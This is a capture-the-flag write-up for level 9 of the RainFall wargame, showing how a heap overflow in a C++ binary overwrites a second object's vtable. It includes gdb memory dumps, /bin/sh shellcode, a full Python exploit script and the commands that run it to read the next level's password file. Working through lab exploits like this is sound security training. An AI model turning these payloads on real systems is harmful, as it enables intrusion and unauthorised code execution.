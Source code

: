 # Level 9

For the first time, we have a C++ executable, so it is a bit trickier as things get mangled a little bit.
The program allocates two instances of the class `N`. The class contains an integer and a char array.

In the function setAnnotation, we will memcpy the entirety of our argv[1] into this char array.


We can override the vtable of the next object, the table that contains the object's methods,  replacing it with addresses to a  shell code in a  memory region we control, also adding a nope slide for extra piece of mind.
Let's get the address of the first object and check what it looks like in memory
```shell
level9@RainFall:~$ ltrace ./level9 ""
_Znwj(108, 0xbffff7d4, 0xbffff7e0, 0xb7d79e55, 0xb7fed280)      = 0x804a008
_Znwj(108, 5, 0xbffff7e0, 0xb7d79e55, 0xb7fed280)               = 0x804a078
[...]
+++ exited (status 11) +++
level9@RainFall:~$ gdb ./level9
(gdb) b *main+164
(gdb) r "BBBBaaaaBBBBaaaaa"
Breakpoint 1, 0x08048698 in main ()
(gdb) x/60x 0x804a008
0x804a008:      0x08048848      0x42424242      0x61616161      0x42424242
0x804a018:      0x61616161      0x00000061      0x00000000      0x00000000
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a048:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a068:      0x00000000      0x00000000      0x00000005      0x00000071
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21
0x804a0e8:      0x00000000      0x00000000      0x00000000      0x00000000
```
Above we can see the vtable at the start of the first and second object, we can also see the value of `int x` near it's end.

We can confirm that the first object will overflow on the second's vtable after 108 bytes
```shell
(gdb) r $(python -c 'print "a"*108')
Starting program: /home/user/level9/level9 $(python -c 'print "a"*108')
Breakpoint 2, 0x08048698 in main ()
(gdb) x/40x 0x804a008
0x804a008:      0x08048848      0x61616161      0x61616161      0x61616161
0x804a018:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a028:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a038:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a048:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a058:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a068:      0x61616161      0x61616161      0x61616161      0x61616161
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000

```

Shellcode from [shell-storm.org](https://shell-storm.org/shellcode/files/shellcode-811.html): "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

t's now time to craft our exploit, we'll write our own vtable only consisting of the address of our shellcode that's coming up next, followed by a nop slide and then our shell code, right before the address of our fake vtable overwrighting the next one's.

It will look like this:
```markdown
our fake vtable (start of shellcode `0x804A05C` * 8) -> 32bytes | padding (NOP `0x90`*48) -> 48bytes | shellcode -> 28 bytes | = 108 bytes, replacing 2nd obj vtable with ours at `0x804a00C`
```


Let's put it together in python
```python
#!/usr/bin/python
destination="\x0c\xa0\x04\x08"
start_of_shellcode="\x5c\xa0\x04\x08"
vtable=start_of_shellcode*8
padding="\x90"*0x30
shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print vtable + padding + shellcode + destination
```

```shell
# On host machine:
scp -P 4242 Resources/exploit.py level9@rainfall:/tmp/exploit.py

# On the Rainfall VM:
chmod +x /tmp/exploit.py
./level9 $(/tmp/exploit.py)
$ cat /home/user/bonus0/.pass
[redacted]
```
